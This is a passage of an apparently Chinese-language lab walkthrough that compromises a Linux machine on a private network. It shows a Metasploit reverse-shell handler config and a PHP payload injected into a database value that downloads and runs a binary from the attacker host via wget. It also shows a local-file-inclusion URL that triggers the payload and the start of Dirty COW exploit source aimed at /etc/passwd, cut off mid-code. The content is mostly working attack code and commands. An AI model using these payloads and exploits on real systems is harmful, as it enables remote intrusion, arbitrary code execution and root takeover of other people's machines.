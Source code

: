 **linux.rc文件**

```sh
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.100.143
set LPORT 4444
exploit
```

- 开启监听

```sh
msfconsole  -qr /home/xiaoxiaoran/shell/linux.rc  
```

## 注入的value为

```php
<?php system("wget 192.168.100.143/xiao3 -O /tmp/xiao3;cd /tmp;chmod +x xiao3;./xiao3 &")?>
```

![image-20210921120422331](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109211204523.png)

## 访问执行

```url
http://192.168.100.153/view.php?page=../../usr/databases/shell
```

![image-20210921120841669](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109211208907.png)

![image-20210921120910207](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109211209494.png)

## 拿到shell,开始提权,脏牛提权

- dirty.c文件

```c
#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <stdio.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <stdlib.h>
#include <unistd.h>
#include <crypt.h>

const char *filename = "/etc/passwd";
const char *backup_filename = "/tmp/passwd.bak";
const char *salt = "firefart";

int f;
void *map;
pid_t pid;
pthread_t pth;
struct stat st;

struct Userinfo
{
  char *username;
```